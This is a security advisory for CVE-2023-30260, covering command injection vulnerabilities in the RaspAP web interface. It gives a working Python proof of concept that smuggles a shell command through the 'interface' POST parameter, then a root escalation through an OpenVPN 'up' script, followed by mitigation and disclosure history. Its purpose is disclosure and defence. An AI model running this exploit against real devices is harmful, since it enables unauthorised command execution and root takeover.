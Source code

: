 ```yaml
---
pagetitle: CVE-2023-30260 Security advisory

...
```


## Security advisory
Multiple command injection vulnerabilities are present in the RaspAP web interface. They allow an authenticated user to execute arbitrary OS commands with the privileges of the web server. Additional factors in the default configuration allow elevation to `root` privileges.

### Affected products

RaspAP v2.8.9 and older


### Steps to reproduce

1. Obtain credentials for RaspAP
2. Configure and execute the following script

```python
#!/usr/bin/env python3

import re
import requests

TARGET="10.3.141.1"
CREDS="admin:secret"
URL=f"http://{CREDS}@{TARGET}/hostapd_conf"

sess = requests.Session()

# Get a valid CSRF token
doc = sess.get(URL).text.replace("\n", "")
csrf = re.match('.*name="csrf_token" value="([^"]+)".*', doc).group(1)

print(csrf)

res = sess.post(URL,
                data={
                   "csrf_token": csrf,
                   "txpower": "auto",

                   # Command payload is here:
                   "interface": ";uptime > /tmp/hax; echo",
                 }
                )

if res.status_code != 200:
  print("Failed to execute command")
```

3. Observe that the file `/tmp/hax` has been created on the raspi, and contains the output of `uptime`.

### Cause
There are two almost identical instances of the vulnerability, at [hostapd.php:103](https://github.com/RaspAP/raspap-webgui/blob/dda1fe6bbb92cffae7a53b516108650bfbb76cb2/includes/hostapd.php#L103) and [hostapd.php:108](https://github.com/RaspAP/raspap-webgui/blob/dda1fe6bbb92cffae7a53b516108650bfbb76cb2/includes/hostapd.php#L108). In both instances, an unsanitized POST variable is fed into a command executed using `exec()`.

A third instance exists at [configure_client.php:20](https://github.com/RaspAP/raspap-webgui/blob/592bce02bfee1169ca92e5e93ebded66bac42c6e/includes/configure_client.php#L20), exploitable in a similar manner.

### Impact

An authenticated user is able to execute arbitrary commands as `www-data`.

In the default RaspAP configuration, this can be leveraged to gain root access by exploiting two of the configured `sudo` permissions; overwrite the openvpn client configuration to set the following:

```
script-security 2
up /tmp/payload.sh
```

and establish an OpenVPN connection. `/tmp/payload.sh` will be executed with root privileges.

### Proposed Mitigation
Apply sanitization to the `txpower` and `interface` parameters, and use the PHP built-in `escapeshellarg()` before passing them to `exec()`.


### History
- 2023-06-26: CVE-2023-30260 assigned
- 2023-03-30: [Additional fix](https://github.com/RaspAP/raspap-webgui/pull/1326) submitted
- 2023-03-30: [Report](https://github.com/RaspAP/raspap-webgui/issues/1325) merged for all three vulnerabilities
- 2023-03-29: Additional vulnerability reported (`configure_client.php`)
- 2023-03-29: Initial report removed
- 2023-03-29: [Fix](https://github.com/RaspAP/raspap-webgui/pull/1322) applied and released as v2.8.9
- 2023-03-28: Initial report filed (`hostapd.php`)
